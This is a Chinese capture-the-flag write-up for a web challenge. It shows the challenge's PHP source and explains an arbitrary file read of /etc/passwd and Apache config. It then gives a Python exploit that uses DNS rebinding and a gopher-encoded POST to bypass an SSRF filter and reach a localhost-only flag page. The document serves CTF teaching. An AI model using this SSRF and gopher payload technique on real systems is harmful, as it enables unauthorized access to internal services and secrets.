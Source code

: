 这一道 web1 还是挺有意思的，算是搞出来的一种非预期



是咋打的捏，首先有个任意文件读取的漏洞，可以读到 `etc/passwd`, `etc/hosts` 这些敏感文件，顺藤摸瓜找到了 `/etc/apache2/sites-enabled/000-default.conf`，在确认网站的根目录是 `var/www/html` 之后，读取 `index.php` 和 `flag.php`

**index.php**

```php
<?php
error_reporting(0);

if (!isset($_REQUEST['url'])){
    header("Location: /?url=_");
    exit;
}

$url=$_REQUEST['url'];
$x=parse_url($url);
if($x['scheme']==='gopher'||$x['scheme']==='file'){
    if(!preg_match('/localhost|127\.0\.|\。/i', $url)){
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_HEADER, 0);
        curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
        curl_exec($ch);
        curl_close($ch);
    }
    else{
        die('hacker');
    }
}
else{
    die('are you serious？');
}
?>
```

**flag.php**

```php
<?php
error_reporting(0);

$flag=getenv("DASFLAG");
$key = md5($flag);

if ($_SERVER["REMOTE_ADDR"] != "127.0.0.1") {
    echo "Just View From 127.0.0.1 \n";
    echo "\n";
    echo $key;
    return;
}

if (isset($_POST["key"]) && $_POST["key"] == $key) {
    echo $flag;
    exit;
}
?>
```

- 明显是要访问 flag.php 且让自己成为 localhost 的角色，这里一眼 SSRF



看 `index.php`，裸露的 SSRF 代码，但是过滤了一些关键字，这里一眼 DNS Rebinding，DNS Rebinding 怎么打这里就不说了，很基础。主要是这里是 gopher 配合 POST 发包



所以构造 EXP 如下



```python
import urllib.parse

payload = \
    """POST /flag.php HTTP/1.1
Host: 80.endpoint-5bc27f004802419d892ebf9f2e58b1ee.s.ins.cloud.dasctf.com:81
Content-Length: 36
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36 Edg/111.0.1661.51
Origin: http://80.endpoint-5bc27f004802419d892ebf9f2e58b1ee.s.ins.cloud.dasctf.com:81
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://80.endpoint-5bc27f004802419d892ebf9f2e58b1ee.s.ins.cloud.dasctf.com:81/flag.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6,ja;q=0.5,zh-TW;q=0.4
Connection: close

key=88b10d0e29f73dbd92bf9be10ee3e34e
    """

# 注意后面一定要有回车，回车结尾表示http请求结束
tmp = urllib.parse.quote(payload)
new = tmp.replace('%0A', '%0D%0A')
result = '_' + new
result = urllib.parse.quote(result)
print('http://80.endpoint-5bc27f004802419d892ebf9f2e58b1ee.s.ins.cloud.dasctf.com:81/?url=gopher://7f000001.c0a80001.rbndr.us:80/'+result)  # 这里因为是GET请求所以要进行两次url编码
```



> 比较有意思的一道实战题



